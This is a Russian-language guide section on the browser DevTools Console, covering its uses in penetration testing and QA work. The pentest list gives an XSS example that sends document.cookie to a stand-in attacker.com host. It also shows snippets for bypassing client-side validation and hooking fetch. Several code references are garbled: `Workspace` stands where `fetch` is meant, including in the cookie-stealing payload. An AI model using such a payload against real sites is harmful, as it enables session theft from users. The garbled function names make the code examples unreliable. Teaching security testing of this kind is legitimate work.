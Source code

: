 
### 🖥️ Консоль (Console)

*(Также известна как Веб-консоль / Web Console)*

📌 **Назначение (Консоль)**

Вкладка "Консоль" — это интерактивная командная строка JavaScript в браузере, а также место для вывода диагностических сообщений от веб-страницы и самого браузера. Она служит для:
* **Выполнения JavaScript**: Запуск произвольного JS-кода в контексте текущей страницы.
* **Логирования**: Отображение сообщений, выведенных с помощью `console.log()`, `console.warn()`, `console.error()`, `console.info()`, `console.debug()`.
* **Отладки**: Просмотр ошибок JavaScript, сетевых запросов, нарушений безопасности (CSP, CORS), сообщений об устаревших функциях.
* **Интерактивного взаимодействия с DOM**: Доступ к элементам страницы, их модификация через JS.
* **Мониторинга событий**: Отслеживание различных событий браузера и пользовательского взаимодействия.

🔍 **Использование в пентесте (Консоль)**

Консоль — один из ключевых инструментов пентестера для работы с клиентской частью:
* **Тестирование XSS**: Ввод и выполнение XSS-векторов для проверки их работоспособности (`alert(document.domain)`, `Workspace('//attacker.com/?cookie='+document.cookie)`).
* **JavaScript Injection**: Выполнение произвольного JavaScript для изменения поведения страницы, обхода защит, извлечения данных.
* **Анализ объектов и переменных**: Исследование глобальных объектов (`window`), переменных, функций, доступных в текущем контексте, на предмет утечек информации (API ключи, токены, пользовательские данные).
* **Взаимодействие с API**: Отправка `Workspace` или `XMLHttpRequest` запросов напрямую из консоли для тестирования API эндпоинтов без UI, подмены параметров.
* **Обход клиентских проверок**: Вызов функций валидации с нужными параметрами или переопределение этих функций. Например, `window.isValid = () => true;`.
* **Динамическая модификация DOM**: Создание, изменение, удаление элементов DOM с помощью JS для обхода UI-ограничений или внедрения контента.
* **Отладка и анализ обфусцированного кода**: Использование консоли в связке с Отладчиком для понимания работы сложного или запутанного JS-кода.
* **Перехват и подмена функций**: Например, `let oldFetch = window.fetch; window.fetch = function(...args) { console.log('Fetch called:', args); return oldFetch.apply(this, args); };` для логирования всех fetch-запросов.
* **Проверка Content Security Policy (CSP)**: Консоль выводит сообщения о нарушениях CSP, показывая, какие ресурсы или действия были заблокированы.

🧪 **Использование в QA (Консоль)**

Для QA-инженеров консоль важна для:
* **Отслеживания ошибок JavaScript**: Обнаружение и анализ ошибок времени выполнения, которые могут ломать функционал.
* **Проверки логирования**: Убедиться, что разработчики добавили необходимые `console.log` для отладки и что они выводят корректную информацию.
* **Диагностики проблем с загрузкой ресурсов**: Сообщения об ошибках загрузки скриптов, стилей, изображений (404, CORS).
* **Проверки выполнения асинхронных операций**: Логирование результатов промисов, колбэков.
* **Тестирования API вызовов**: Быстрая проверка ответов API через `Workspace()` из консоли.
* **Мониторинга событий**: Использование `monitorEvents(document.body, 'click')` для отслеживания определенных событий на элементе.
* **Валидации данных**: Вывод переменных и объектов в консоль для проверки их значений на разных этапах выполнения сценария.
* **Автоматизации мелких действий**: Написание коротких скриптов для выполнения повторяющихся действий на странице во время тестирования.
